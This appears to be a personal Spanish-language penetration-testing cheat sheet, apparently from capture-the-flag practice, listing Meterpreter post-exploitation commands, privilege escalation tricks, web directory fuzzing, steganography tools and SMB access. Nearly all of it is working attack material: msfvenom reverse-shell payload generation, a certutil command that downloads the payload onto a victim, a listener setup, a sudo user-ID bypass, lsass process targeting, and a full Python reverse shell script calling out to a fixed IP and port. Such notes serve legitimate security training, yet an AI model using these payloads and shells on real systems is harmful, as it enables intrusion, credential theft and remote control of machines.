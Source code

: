 
getuid = server username
sysinfo =informacion del sistema (en metaslpoit dentro de windows informacion de meterpreter x86/x64)
pgrep lsass = buscar id de lsass 
ps -S explorer.exe = buscar el proceso explorer.exe
migrate PID = seleccionamos el proceso de explorer
getsystem = para elevar privilegios
net localgroup administrators = consultar usuario del grupo administradores
ps -S lsass.exe = localizar pid de proceso de autenticacion del sistema
getprivs = podemos ver los privilegios del usuario en orden de realizar una suplantacion de tokens
dir C:\\ flag /s = buscamos de forma recursiva en todo C: por el archivo flag
whoami priv > ver privilegios windows
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ip LPORT=port -f exe > payload.exe
python -m SimpleHTTPServer 80
windows: certutil -urlcache -f http://LHOST/payload.exe > descarga  archivo en victima
msfc > use multihandler
	set payload windows/x64/meterpreter/reverse_tcp
		set LHOST
		set LPORT
Al ejecutar el payload en la victima obtenemos un meterpreter ss.
	meterpreter> search (para buscar el unattend.xml)

ENUM WEB
wfuzz -u http://IP/direcotorios/FUZZ.extension -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -c --hc 404
gobuster -u URL -w WORDLIS -t (velocidad) --no-error -k (para ignorar certs)


IMAGENES y ARCHIVOS
exiftool archivo  > ver datos del archivo
steghide extract --sf archivo.jpg > podemos ver si tiene archivo con info
strings nos trae los datos del archivo
file para ver de que tipo es un archivo
find / -perm -u=s -type f 2>/dev/null
binwalk -e ARCHIVO > nos permite extraer cualquier dato del archivo

sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt


HASH
base64 -d archivo.txt > decode base64 linux

psexec.py USUARIO@IP > nos conectamos a una maquina windows si tiene smb
	tambien esta disponible el modulo en msfconsole


ESTABILIZAR TERMINAAAAAAAAAAAAAAL
	python3 -c 'import pty;pty.spawn("/bin/bash")'
	_Ctrl+Z_
	stty raw -echo; fg
	export TERM=xterm


REVERSE SHELL SCRIPT PYTHON
	import socket
	import os
	import subprocess
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(("10.9.146.146",1444))
	os.dup2(s.fileno(),0)
	os.dup2(s.fileno(),1)
	os.dup2(s.fileno(),2)
	import pty
	pty.spawn("bash")


SMB
smbmap -H HOST
 smbclient \\\\\\\\HOST\\\
 
 